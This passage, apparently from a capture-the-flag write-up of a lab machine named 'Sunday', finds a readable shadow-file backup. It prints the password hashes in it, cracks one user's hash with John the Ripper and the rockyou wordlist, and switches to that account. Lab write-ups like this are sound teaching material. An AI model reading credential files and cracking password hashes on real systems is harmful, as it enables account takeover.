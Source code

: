 ```text
sunny@sunday:~$ sudo /root/troll
testing
uid=0(root) gid=0(root)
```

It seems to be a script that prints the id of the user running it. Since we ran it with the ‘sudo’ command, it prints the id of root. We don’t have write access to the script, so we can’t escalate our privileges using it.

After a bit of digging, I found a backup file in the following directory.

```text
/backup
```

It contains two files agen22.backup and shadow.backup. The former we don’t have access to, however, we can view the latter.

```text
sammy@sunday:/backup$ cat shadow.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

It’s a backup of the shadow file. We already know Sunny’s password so we’re not going to attempt to crack it. Instead, copy Sammy’s password and save it in the file sammy-hash.txt. Then use John to crack the hash.

```text
root@kali:~# john --wordlist=/usr/share/wordlists/rockyou.txt sammy-hash.txt Using default input encoding: UTF-8
Loaded 1 password hash (sha256crypt, crypt(3) $5$ [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cooldude!        (?)
1g 0:00:01:17 DONE (2020-01-05 21:03) 0.01292g/s 2648p/s 2648c/s 2648C/s domonique1..bluenote
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We got a password! Let’s su into Sammy’s account.

```text
su - sammy
```

Now we can view the user.txt flag.

